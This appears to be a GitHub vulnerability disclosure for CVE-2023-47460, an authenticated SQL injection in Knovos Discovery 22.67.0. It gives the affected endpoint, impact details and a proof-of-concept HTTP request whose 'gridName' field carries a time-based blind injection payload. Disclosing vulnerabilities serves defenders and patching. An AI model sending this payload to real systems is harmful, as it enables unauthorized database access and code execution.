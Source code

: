 # CVE-2023-47460

## Description

SQL injection vulnerability in Knovos Discovery v.22.67.0 allows a remote attacker to execute arbitrary code via the /DiscoveryProcess/Service/Admin.svc/getGridColumnStructure component

## Vulnerability Type

SQL Injection

## Vendor of Product

Knovos Discovery

## Affected Product Code Base

Version 22.67.0 - Version 22.67.0

## Affected Component

/DiscoveryProcess/Service/Admin.svc/getGridColumnStructure

## Attack Type

Remote

## Impact Code execution

true

## Impact Information Disclosure

true

## Discoverer

- Aleksey Vistorobskiy

## Attack Vectors

authorized user


Request:
```
POST /DiscoveryProcess/Service/Admin.svc/getGridColumnStructure?caseMappingId=*** HTTP/1.1
Host: vuln_host
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 73
Connection: close

{
  "gridName":"Inventory-grid' waitfor delay'0:0:50'--",
  "uID":"10"
}

```

Response:
![](/1.jpg)

## Reference

- https://www.knovos.com/
- https://github.com/aleksey-vi/CVE-2023-47460
